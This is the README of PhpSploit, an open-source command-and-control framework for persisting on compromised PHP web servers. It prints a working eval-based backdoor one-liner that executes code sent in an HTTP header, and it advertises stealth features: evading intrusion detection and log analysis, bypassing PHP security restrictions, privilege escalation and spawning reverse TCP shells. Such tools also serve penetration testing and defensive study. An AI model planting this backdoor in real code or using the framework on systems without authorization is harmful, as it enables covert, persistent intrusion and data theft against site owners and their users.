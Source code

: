 <p align="center">
  <a href="https://github.com/nil0x42/phpsploit" alt="master">
    <img src="data/img/logo.png" alt="Master">
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/nil0x42/phpsploit">
      <img src="https://img.shields.io/twitter/url?label=tweet&logo=twitter&style=social&url=http%3A%2F%2F0" alt="tweet">
    </a>
</h3>
<br>

<p align="center">
  <a href="https://travis-ci.com/nil0x42/phpsploit">
    <img src="https://img.shields.io/travis/com/nil0x42/phpsploit?branch=master&logo=travis" alt="travis build">
  </a>
  <a href="https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master">
    <img src="https://img.shields.io/requires/github/nil0x42/phpsploit?color=blue" alt="requires.io requirements">
  </a>
  <a href="https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard">
    <img src="https://img.shields.io/codacy/grade/b998fe23c25f40a78c6c35c722bb9fa0?logo=codacy&logoColor=green" alt="codacy code quality">
  </a>
  <a href="https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/">
    <img src="https://img.shields.io/lgtm/alerts/github/nil0x42/phpsploit?logo=lgtm&logoColor=yellow" alt="lgtm alerts">
  </a>
  <a href="https://codecov.io/gh/nil0x42/phpsploit">
    <img src="https://img.shields.io/codecov/c/github/nil0x42/phpsploit?color=orange&label=coverage&logo=codecov" alt="codecov coverage">
  </a>
  <a href="https://codeclimate.com/github/nil0x42/phpsploit/maintainability">
    <img src="https://img.shields.io/codeclimate/maintainability/nil0x42/phpsploit?color=blueviolet&logo=code-climate&logoColor=blueviolet" alt="codeclimate maintainability">
  </a>
</p>

<p align="center">
  <a href="https://github.com/carpedm20/awesome-hacking#tools-2">
    <img src="https://awesome.re/mentioned-badge.svg">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    <img src="https://img.shields.io/twitter/follow/nil0x42.svg?logo=twitter">
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/nil0x42">nil0x42</a> and
    <a href="https://github.com/nil0x42/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  <img src="data/img/demo.png">
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these wonderful people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome

